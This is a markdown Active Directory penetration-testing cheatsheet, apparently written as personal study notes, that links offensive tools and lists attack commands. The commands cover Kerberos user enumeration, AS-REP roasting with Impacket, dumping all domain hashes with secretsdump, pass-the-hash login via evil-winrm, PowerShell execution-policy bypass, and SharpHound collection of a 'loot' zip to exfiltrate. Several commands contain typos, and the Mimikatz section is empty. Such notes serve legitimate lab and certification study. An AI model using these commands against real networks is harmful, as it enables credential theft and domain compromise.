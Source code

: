 # Active Directory Cheatsheet     
## Quick Commands  

    net group /domain  
### Files to Check  
    %SYSTEMROOT%\System32\ntds.dit             #AD database
    %SYSTEMROOT%\NTDS\ntds.dit                 #AD backup 

## Resources      
[WADComs](https://wadcoms.github.io/)    

## Cheat Sheets
[AD Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)     
[AD Lateral Movement and Persistence Cheatsheet](https://bhanusnotes.blogspot.com/2020/12/ad-pentest-lateral-movement-persistance.html)  
[AD Cheat sheet](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)  

## General Tools  
[Impacket](https://github.com/SecureAuthCorp/impacket)   
[evil-winrm](https://github.com/nubix/evil-winrm)    
[ADSC-Pwn](https://github.com/bats3c/ADCSPwn)   

## Kerberos (Port 88)   
[Kerbrute](https://github.com/ropnop/kerbrute), [Rubeus](https://github.com/GhostPack/Rubeus)   
[Kerberos Tickets](https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel)   
[Kerberos Cheat Sheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)  


    ./kerbrute userenum userlist.txt -d [name] --dc [name]     

Get a list of valid users: ASREProasting to see if any of them do not have pre-auth set and can request a Kerberos ticket without a password. Crack hashes with hashcat        

    python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py domain.local/ -no-pass -usersfile users.txt         
    
If you have creds for the backup account for domain controller: can dump all hashes (has full     
    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc backup:backuppassword@domain.local
    
Pass the Hash: use psexec or evil-winrm to login with username/ hash (doesn't neeed to be cracked)    

    evi-winrm -i 127.0.0.1 -u username -H [NTLM hash]        

## Post Exploitation    
### PowerView   
Powershell script to enum domain after gaining admin access to machine   

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)   
[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)    
[Cheat sheet](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)   

    powershell -ep bypass   
    . .\PowerView.ps1   
    Get-NetDomain   
    Get-NetUser   
    Get-NetComputer -fulldata   
    
## Bloodhound    
[Bloodhound](https://github.com/BloodHoundAD/BloodHound)   
Bloodhound - GUI app installed on attack box, SharpHound - powershell script to enum and collect data -> exfiltrate as a zip file.     

    apt-get install bloodhound     

on victim, transfer file then import into Bloodhound and run queries   
    . .\SharpHound.ps1   
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip        
    
## Mimikatz  

[Online Password Cracker - Crackstation](https://crackstation.net/)   
    





